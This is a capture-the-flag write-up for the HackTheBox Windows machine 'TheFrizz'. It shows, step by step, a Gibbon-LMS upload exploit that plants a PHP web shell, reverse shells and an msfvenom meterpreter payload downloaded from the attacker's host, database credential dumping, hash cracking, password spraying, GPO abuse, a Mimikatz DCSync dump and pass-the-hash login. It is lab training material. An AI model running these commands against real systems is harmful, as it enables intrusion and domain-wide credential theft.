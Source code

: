 # TheFrizz


```
Difficulty: Medium
Operating System: Windows
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique / Tool Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `w.webservice` | **Curl**, **PHP Shell**, **Netcat** | Gained a reverse shell by exploiting a file upload vulnerability in the Gibbon-LMS application. |
| 2 | `f.frizzle` | **MySQL**, **Hashcat**, **Kerberos** | Dumped user credentials from the MySQL database, cracked the hash for `f.frizzle`, and used Kerberos authentication to get an SSH shell as the domain user. |
| 3 | `M.SchoolBus` | **7-Zip**, **Base64**, **Kerbrute** | Discovered a hidden compressed file in the recycle bin, which contained a base64-encoded password. The password was cracked and password sprayed to find the user `M.SchoolBus`. |
| 4 | `M.SchoolBus` | **New-GPO**, **SharpGPOAbuse** | Used Group Policy Creator Owner permissions to create and link a GPO that added `M.SchoolBus` to the local Administrators group on the Domain Controller. |
| 5 | `M.SchoolBus` (elevated) | **RunasCs**, **Netcat** | Executed a process with elevated privileges using a `RunasCs` tool to obtain a `SYSTEM` shell. |
| 6 | `Administrator` | **Mimikatz**, **impacket-wmiexec** | Used `Mimikatz` to dump the NTLM hash of the `Administrator` account from the domain controller. |
| 7 | `Administrator` | **impacket-wmiexec** | Logged in as `Administrator` using the stolen NTLM hash to get full control of the machine and retrieve the root flag. |



#### Initial Access: Gibbon-LMS Exploitation

The first step is to gain a shell on the target machine. A port scan reveals that the machine is running an OpenSSH server on port 22 and an Apache web server on port 80. The web server hosts a Gibbon-LMS application.

Modify the hosts file: Add frizz.htb and frizzdc.frizz.htb to your /etc/hosts file to resolve the domain names.

Bash

```
10.10.11.60     frizzdc.frizz.htb frizz.htb
```

With the results, create a Kerberos configuration file in /etc/krb5.conf.

```
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
```

Exploit the Gibbon-LMS upload vulnerability: The Gibbon-LMS application has a file upload vulnerability in the rubrics_visualise_saveAjax.php page. You can use curl to upload a base64-encoded PHP shell.

Bash

```
./CVE-2023-45878.sh 10.10.XX.XX 8888 10.10.11.60:80
```

This command uploads a simple PHP shell named s_shell.php, which executes commands passed via the cmd GET parameter.

Establish a reverse shell:

Host a PowerShell reverse shell script (rev.ps1) on your local machine using a Python web server or php -S.

Use the uploaded PHP shell to execute a PowerShell command that downloads and runs your reverse shell script. Remember to URL-encode the PowerShell command.


Set up a listener on your local machine to catch the reverse shell.

Bash

```
python3 penelope.py -i tun0 8888
```

![Web_Shell](Pictures/htb_frizz_Web_shell.png)



#### Enumerate the system:

 Once you have a shell, you will be the frizz\w.webservice user. The next step is to find credentials for other users.

The config.php file in the Gibbon-LMS directory contains database credentials.

Bash

```
type config.php
```

![DB_Leak](Pictures/htb_frizz_GibbonsDB_Cred.png)

Look for the $databasePassword variable, which contains the password for the MrGibbonsDB user.

$databasePassword = 'MisXXXXXXXXXXXXXXXXXXX';

Use these credentials to connect to the MySQL database and dump the contents of the gibbonperson table, which contains user credentials.

Bash

```
.\mysql.exe -u MrGibbonsDB -pMisXXXXXXXXXXXXXXXXXXX --database=gibbon -e "SELECT * FROM gibbonperson;"
```

![DB](Pictures/htb_frizz_mysqldb.png)

This will reveal the hashed password for the user f.frizzle:
067f746faca44f170c6cd9d7c4bdac6bXXXXXXXXXXXXXX84242b0b0c03:/aACFhiXXXXXXX489

![Fiona](Pictures/htb_frizz_fiona_frizzle.png)

Crack the password: Use Hashcat to crack the hash. The format is a salted SHA1, which corresponds to mode 1420.

Bash

hashcat -m 1420 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
The cracked password is JenXXXXXXXXXXXXXXX.

### Privilege Escalation: User to Domain User

![Domain_User](Pictures/htb_frizz_Domain_User.png)

The password JenXXXXXXXXXXXXXXX belongs to the domain user f.frizzle. Initial attempts to use this password with NTLM authentication (SMB, WinRM, LDAP) may fail. This is because Kerberos authentication is required.

![John](Pictures/htb_frizz_fiona_password_crack.png)


#### Set up Kerberos:

Synchronize your system time with the domain controller using ntpdate.

Use impacket-getTGT to get a Kerberos Ticket Granting Ticket (TGT) for the f.frizzle user.

Export the ticket to the KRB5CCNAME environment variable.

Bash

```
sudo ntpdate frizz.htb
impacket-getTGT frizz.htb/f.frizzle:JenXXXXXXXXXXXXXXX -k  -dc-ip $IP
export KRB5CCNAME=f.frizzle.ccache
```

![User](Pictures/htb_frizz_Ticket_saved_user_flag.png)

SSH into the machine: With the Kerberos ticket, you can now log in via SSH using the f.frizzle account. You may need to configure your /etc/krb5.conf file to specify the domain realm (Above in Initial Access).

Bash

```
ssh f.frizzle@frizz.htb -K
```

![User_Flag](Pictures/htb_frizz_user_flag.png)



#### Find the root password:

Enumerate the system as f.frizzle. You will find the user flag in C:\Users\f.frizzle\Desktop\user.txt.

**Use BloodHound to collect data from the AD environment**

shell

```
bloodhound -u 'f.frizzle' -p 'MisXXXXXXXXXXXXXXX' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60 -c all --zip
```

Go to Administrator Direct Member in Group Member, we can see we will able to escalate privilage if able to gain access to M.SCHOOLBUS or ADMINISTRATOR

We still unable to get access to highest privilege. While looking for useful information in f.frizzle, look and restore the deleted file from the user machine

Look for deleted fie in recycle bin

Powershell
```
$shell = New-Object -ComObject Shell.Application
$recycleBin = $shell.Namespace(0xA)
$recycleBin.items() | Select-Object Name, Path
```

![REcover](Pictures/htb_frizz_Recover.png)

Restore deleted file

Powershell

```
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)
$items = $recycleBin.Items()
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}
$documentsPath = [Environment]::GetFolderPath("Desktop")
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)
$documents.MoveHere($item)
```

![Recovered](Pictures/htb_frizz_Recovered.png)


The .7z file will restore to the Desktop.

IMPORT FILE TO AD

Then, import the file into our local machine to extract

Use msfvenom to generate meterpreter session to import the file

Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.XX.XX LPORT=4444 -f exe -o meterpreter.exe
```

Then, open http port

Shell

```
python -m http.server 80
```

Download the file

Powershell

```
Invoke-WebRequest -Uri "http://10.10.XX.XX/meterpreter.exe" -OutFile "meterpreter.exe"
```

Open msfconsole and use use exploit/multi/handler to run and open meterpreter session.


DOWNLOAD FILE FROM AD

First recognize the file directory to download, which wapt-backup-sunday.7z in Desktop. Run the command in meterpreter, the file will be downloaded:

Shell

```
meterpreter > download C:\\Users\\f.frizzle\\Desktop\\wapt-backup-sunday.7z
```

After extract and enumerate the file, there simple encoded base64 password in waptserver.ini that we can decrypt


Kerbrute : M.SchoolBus as the user has same privilege as the administrator.


Possible user from Users in f.frizzle.

Powershell

```
Directory: C:\\Users
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d----           3/11/2025  3:37 PM                Administrator
d----          10/29/2024  7:27 AM                f.frizzle
d----          10/29/2024  7:31 AM                M.SchoolBus
d-r--          10/29/2024  7:13 AM                Public
d----           2/19/2025  1:35 PM                v.frizzle
d----           2/19/2025  1:35 PM                w.Webservice
```

So, the passwords belong to M.SchoolBus since we able to create the ticket with it



Copy these files to your local machine using scp. Note that you'll need to specify GSSAPI options to use your Kerberos ticket.


Inside the decompressed files, you will find a configuration file waptserver.ini that contains a base64-encoded password: IXNXXXXXXXXXXXXXXWQhUgo=.

Decode the base64 string to get the password: !suXXXXXXXXXXXXX.

Bash

```
echo IXNXXXXXXXXXXXXXhUgo= | base64 -d
```
Use Kerbrute to perform a password spray and find which user this password belongs to.

Bash

```
kerbrute_linux_amd64 passwordspray  --dc frizzdc.frizz.htb -d frizz.htb names.txt '!suXXXXXXXXXXXXX'
```

![Kerbrute](Pictures/htb_frizz_kerbrute_idnetified_mschool.png)

This will reveal that the password belongs to the M.SchoolBus user.

Privilege Escalation: Domain User to Domain Admin
The user M.SchoolBus has permissions to create and link Group Policy Objects (GPOs), which can be exploited to gain administrator privileges.

Kerberos for M.SchoolBus: Get a new Kerberos TGT for the M.SchoolBus user and export it.

Bash

```
impacket-getTGT frizz.htb/M.SchoolBus:'!suXXXXXXXXXXXXX' -k -dc-ip $IP
export KRB5CCNAME=M.SchoolBus.ccache
```

SSH as M.SchoolBus: Log in to the machine via SSH as the M.SchoolBus user.

Bash

```
ssh M.SchoolBus@frizz.htb -K
```

![Ticket](Pictures/htb_frizz_kerbrute_idnetified_mschool_ticket.png)


GPO Abuse: Use PowerShell and a tool like SharpGPOAbuse to create a GPO, link it to the Domain Controllers OU, and add M.SchoolBus to the local administrators group.

Create a new GPO:

View the GPO

Powershell

```
Get-GPO -ALL | Select DisplayName, Id
```

![View](Pictures/htb_frizz_kerbrute_ALL_GPO.png)

From the BloodHound data earlier, we can see that M.SchoolBus had the same privilege as administrator which the user also able to create a GPO.


Use the github tool to create a GPO policy that enable us to go to /root.

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master


Upload the file to the target machine.

Run below command to create a new GPO

Powershell

```
New-GPO -Name {{GPO-Name}} | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes

```

Powershell
```
get-GPO -All
```

![Create](Pictures/htb_frizz_kerbrute_Ctreated_GPO.png)

gpupdate /force

Execute as administrator: The M.SchoolBus user is now a local administrator on the domain controller. You can use tools like RunasCs.exe to run a new process with administrator privileges.

PowerShell

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName Z0N --force
```

Force a GPO update to apply the changes.


Use RunasCs.exe to execute a PowerShell reverse shell as the M.SchoolBus user.

PowerShell

```
.\RunasCs.exe "M.SchoolBus"  '!suXXXXXXXXXXXXX' powershell.exe -r 10.10.XX.XX:1234
```

Set up a netcat listener to catch the reverse shell. This new shell will be running as NT AUTHORITY\SYSTEM.

![RunCs](Pictures/htb_frizz_Run.png)

Dump administrator credentials: With a SYSTEM shell, you can use Mimikatz to dump the credentials of the domain administrator.

![Priv](Pictures/htb_frizz_Priv.png)

Upload and run mimikatz.exe.

Elevate privileges and use lsadump::dcsync to get the domain administrator's NTLM hash.


mimikatz # lsadump::dcsync /domain:frizz.htb /user:Administrator
The NTLM hash for the Administrator will be c457bXXXXXXXXXXXXXXXX92e993d0b.

Final access: Use the dumped NTLM hash to log in as the domain administrator with tools like impacket-wmiexec.

Bash

```
impacket-wmiexec frizz.htb/administrator@frizzdc.frizz.htb -hashes :c457b5f1XXXXXXXXXXXXXXX93d0b -k -no-pass
```

![Root_Flag](Pictures/htb_frizz_Root_flag.png)

You now have full administrative access to the domain controller and can retrieve the root flag.


**Pwned! TheFrizz**

-->